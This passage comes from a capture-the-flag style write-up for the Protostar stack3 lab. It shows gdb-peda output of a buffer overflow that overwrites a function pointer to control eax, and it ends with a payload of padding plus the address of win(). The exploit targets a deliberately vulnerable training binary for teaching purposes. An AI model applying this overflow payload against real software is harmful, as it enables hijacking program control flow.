 We are actually manipulating eax register to control program flow.
Let's set a breakpoint to just one previous instruction.

```x86asm
gdb-peda$ b *0x08049257
Breakpoint 1 at 0x8049257: file 3.c, line 23.
gdb-peda$ r
Starting program: /home/thomas/Desktop/protostar/3 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
calling function pointer, jumping to 0x61616161
...TRIM...
Breakpoint 1, main (argc=<error reading variable: Cannot access memory at address 0x61616161>, argv=<error reading variable: Cannot access memory at address 0x61616165>) at 3.c:23
23	
```

OK, we hit breakpoint let's examine fp() function, stack memory and registers a bit more.

```nasm
gdb-peda$ print fp
$1 = (int (*)()) 0x61616161
gdb-peda$ print &fp
$2 = (int (**)()) 0xffffd13c
gdb-peda$ p/d 0xc
$3 = 12
gdb-peda$ x/12wx $ebp-0xc
0xffffd13c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd14c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd15c:	0x61616161	0x61616161	0x61616161	0x61616161
gdb-peda$ i r
eax            0x30                0x30
```

OK **eax** is same because we need to run one more step to see the difference.

```nasm
gdb-peda$ si
...TRIM...
   0x8049257 <main+82>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x804925a <main+85>:	call   eax
   0x804925c <main+87>:	mov    eax,0x0
...TRIM...
gdb-peda$ i r eax
eax            0x61616161          0x61616161
```

Good, we manipulated the **eax** register. 



#### 2.2 Quick Solution

The function win() is at address **0x80491d6**, so our payload will have an offset + target address:

**buffsize * "\x90"** + **"\xd6\x91\x04\x08"**
